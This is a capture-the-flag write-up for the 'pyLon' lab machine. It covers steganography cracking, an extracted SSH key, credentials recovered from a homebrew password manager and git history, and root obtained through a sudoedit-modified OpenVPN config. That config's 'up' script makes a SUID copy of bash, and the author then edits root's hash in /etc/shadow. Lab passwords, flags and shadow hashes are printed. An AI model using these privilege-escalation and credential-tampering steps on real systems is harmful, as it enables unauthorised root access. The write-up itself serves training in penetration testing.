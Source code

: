 > pyLon

**export IP=10.10.187.76**

# Recon

We got a file `pepper.jpg`. 

## exiftool

```
File Name                       : pepper.jpg
Directory                       : .
File Size                       : 381 KiB
File Modification Date/Time     : 2021:04:08 09:34:16-04:00
File Access Date/Time           : 2021:04:08 09:35:18-04:00
File Inode Change Date/Time     : 2021:04:08 09:35:03-04:00
File Permissions                : rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
XMP Toolkit                     : Image::ExifTool 12.16
Subject                         : https://gchq.github.io/CyberChef/#recipe=To_Hex('None',0)To_Base85('!-u',false)
Image Width                     : 2551
Image Height                    : 1913
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 2551x1913
Megapixels                      : 4.9
```

And we can see that we have a file hiding inside the jpg. But we can't extract oit using steghide no password. Let's crack it using stegcracker.

stegcracker pepper.jpg rockyou.txt => `pepper`. And we have a file `lone`. by first look I probably I guessed it is a ssh id_rsa file but encode in base64.

1. cat lone | base64 -d > lone.decode => Turns out to be a gzip file
2. tar -xvf lone.tgz => We got lone_id private SSH key

# Rustscan

rustscan --ulimit 5000 -a $IP -- -sC -sV -Pn -A -oN rustscan.log

```
22/tcp  open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
222/tcp open  ssh     syn-ack OpenSSH 8.4 (protocol 2.0)
```

We have to try both ports.👷

ssh -i lone_id -p 222 lone@$IP

We are in but we are prompted to enter encrption key. Now we know that we have cyberchef with the recipies. Let's try the same password `pepper` and we have `2_[-I2_[0E2DmEK`. We are in!!🔥

We can try all the options. Starting with `[1] Decrypt a password.`

```
         SITE                        USERNAME
 [1]     pylon.thm                   lone✅           
 [2]     FLAG 1                      FLAG 1                      
    Password for pylon.thm

        Username = lone
        Password = +2BRkRuE!w7>ozQ4 => Let's try this for port 22
```

```
         SITE                        USERNAME
 [1]     pylon.thm                   lone           
 [2]     FLAG 1                      FLAG 1✅                      
    Password for FLAG 1

        Username = FLAG 1
        Password = THM{homebrew_password_manager}
```

# user.txt

```
TMM{easy_does_it}
```

We have SSH access as lone. And we got some interesting files.

## .gitconfig 

```
[user]
	email = lone@pylon.thm
	name = lone
```

Let's checkout the pyLon folder. We have some files but not particularly interseting. But we know that we have git let's look for some commits.

git log 

```
commit 73ba9ed2eec34a1626940f57c9a3145f5bdfd452 (HEAD, master)
Author: lone <lone@pylon.thm>
Date:   Sat Jan 30 02:55:46 2021 +0000

    actual release! whoops

commit 64d8bbfd991127aa8884c15184356a1d7b0b4d1a
Author: lone <lone@pylon.thm>
Date:   Sat Jan 30 02:54:00 2021 +0000

    Release version!

commit cfc14d599b9b3cf24f909f66b5123ee0bbccc8da
Author: lone <lone@pylon.thm>
Date:   Sat Jan 30 02:47:00 2021 +0000

    Initial commit!
```

Hmm. Nothing intersting. Let's if there is intersting in previous versions.

git checkout cfc14d599b9b3cf24f909f66b5123ee0bbccc8da=> Oooh we have an intersting file `pyLon.db` and `pyLon_pwMan.py`!!🚨

python3 pyLon_pwMan.py => We are again prompted with encryption key

```
        [1] List passwords.✅
        [2] Decrypt a password.
        [3] Create new password.
        [4] Delete a password.
        [5] Search passwords.
        [6] Display help menu

         SITE                        USERNAME
 [1]     pylon.thm_gpg_key           lone_gpg_key                

 [2] Decrypt a password.

    Password for pylon.thm_gpg_key

        Username = lone_gpg_key
        Password = zr7R0T]6zvYl*~OD
```

## Decrypting gpg file 

gpg -d note_from_pood.gpg 

```
gpg: encrypted with 3072-bit RSA key, ID D83FA5A7160FFE57, created 2021-01-27
      "lon E <lone@pylon.thm>"
Hi Lone,

Can you please fix the openvpn config?

It's not behaving itself again.

oh, by the way, my password is yn0ouE9JLR3h)`=I

Thanks again.
```

sudo -l

```
User lone may run the following commands on pylon:
    (root) /usr/sbin/openvpn /opt/openvpn/client.ovpn
```

Since `pood` user has given his creds let's check'em out! 

# user2.txt

```
THM{homebrew_encryption_lol}
```

# Privilege Escalation 

sudo -l

```
User pood may run the following commands on pylon:
    (root) sudoedit /opt/openvpn/client.ovpn
```

Looking at openvpn's manual page we find that we can run a command on suucessful connection. Let's write a script and make it run!

## /tmp/up.sh

```
#!/bin/bash

cp /bin/bash /tmp
chmod 4777 /tmp/bash
```

chmod 777 /tmp/up.sh
sudoedit /opt/openvpn/client.ovpn

Add 2 lines

```
client
dev tun
proto udp
remote 127.0.0.1 1194
resolv-retry infinite
nobind
persist-key
persist-tun
remote-cert-tls server
cipher AES-256-CBC
script-security 2
up /tmp/up.sh
```

Now let's switch to lone and start the vpn connection. Once connected we have our bash in /tmp. `bash -p` gives us a root shell! We have a file `/root/root.txt.gpg` but we can't decode it using gpg.

id

```
uid=1002(lone) gid=1002(lone) euid=0(root) groups=1002(lone)
```

We can copy pood's user hash in /etc/shadow and paste it in root's and by this we can su as root using pood's password.

```
root:$6$ivWUkR1k$XnYAc7OJJ63P/lgYzNWLiFMydrOFP/qrARMNcjHX1H4sIGFEyVQKAOedWLDY2nHU8rxx7hABmr4JT3uM74Bm5.:18480:0:99999:7:::
pylon:$6$kBtkIi0w$zj80m4J62jDhdffz6U.Fy/9rBhfLOD5YybkOXUrwQthF1svHTXfB6wCJ7KaZ9Dl0euJmjFbiIbtQIICIpE04W0:18657:0:99999:7:::
pood:$6$ivWUkR1k$XnYAc7OJJ63P/lgYzNWLiFMydrOFP/qrARMNcjHX1H4sIGFEyVQKAOedWLDY2nHU8rxx7hABmr4JT3uM74Bm5.:18657:0:99999:7:::
lone:$6$vfrtqwG3$K1wwsz.rtdOBJ.P3vrNwVZN66iMJjTdTRQRIPmJAvXXxqrEk5JRjlRYCdYB44GjwTlJ4n1OcsxX0ntsa8Uue9.:18657:0:99999:7:::
```

gpg -d root.txt.gpg 

```
gpg: encrypted with 3072-bit RSA key, ID 91B77766BE20A385, created 2021-01-27
      "I am g ROOT <root@pylon.thm>"
ThM{OpenVPN_script_pwn}
```